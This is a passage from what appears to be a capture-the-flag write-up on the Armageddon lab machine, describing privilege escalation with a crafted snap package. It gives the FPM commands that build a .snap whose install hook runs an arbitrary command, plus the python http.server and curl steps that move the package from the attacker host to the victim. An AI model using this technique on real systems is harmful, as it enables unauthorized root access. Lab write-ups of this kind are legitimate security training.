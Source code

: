 ## GTFOBINS
Trusty [GTFOBINS](https://gtfobins.github.io/gtfobins/snap/) pointed me to building a package via [FPM](https://github.com/jordansissel/fpm), uploading it to the target, and executing from there.

Ran through the commands one-by-one, although I am now realizing that I could have likely put together a bash script to execute them and build the snap package - will remember for next time.

Built the package and it output x_1.0_all.snap
Hosted an http server from my machine via python3
Utilized curl to bring the file down to the victim machine

```bash
┌──(root💀kali)-[/tmp/tmp.3rsGCSUIuW]
└─# python3 -m http.server 8080
```

```bash
[brucetherealadmin@armageddon ~]$ curl http://10.10.14.6:8080/x_1.0_all.snap --output x_1.0_all.snap
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  4096  100  4096    0     0  31045      0 --:--:-- --:--:-- --:--:-- 31507
[brucetherealadmin@armageddon ~]$ ls
LinEnum-export-28-04-21  LinEnum.sh  pspy64  raad.txt-28-04-21  user.txt  x_1.0_all.snap
```

This resulted in many errors relating to snap not being able to identify a file named 'x'. Spent quite a bit of time researching, and even built an ubuntu machine separately to try and use FPM to compile our exploit, but eventually gave up and began researching other avenues. This is where I discovered the .py exploit for the same vulnerability.

Downloaded Ubuntu image
Spun up Ubuntu VM
Installed Guest Additions
Installed FPM dependencies and application
apt\-get install ruby ruby\-dev rubygems build\-essential
gem install \--no\-document fpm
Ran through GTFOBINS Commands and generated .snap file
Sent from VM > Host > Kali VM as other methods were causing me to spend more time than it was worth
Hosted folder contents via python3 -m http.server 8080
Utilzied Curl to pull down the file 

```bash
[brucetherealadmin@armageddon ~]$ curl 10.10.14.146:8080/xxxx_1.0_all.snap --output xxxx_1.0_all.snap
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  4096  100  4096    0     0  30830      0 --:--:-- --:--:-- --:--:-- 31030
```

```bash
ghohst@ghohst-VirtualBox:~/Documents$ COMMAND=id
ghohst@ghohst-VirtualBox:~/Documents$ cd $(mktemp -d)
ghohst@ghohst-VirtualBox:/tmp/tmp.wkn3OZypH7$ mkdir -p meta/hooks
ghohst@ghohst-VirtualBox:/tmp/tmp.wkn3OZypH7$ printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
ghohst@ghohst-VirtualBox:/tmp/tmp.wkn3OZypH7$ chmod +x meta/hooks/install
ghohst@ghohst-VirtualBox:/tmp/tmp.wkn3OZypH7$ fpm -n xxxx -s dir -t snap -a all meta
Created package {:path=>"xxxx_1.0_all.snap"}
ghohst@ghohst-VirtualBox:/tmp/tmp.wkn3OZypH7$ ls
meta  xxxx_1.0_all.snap
```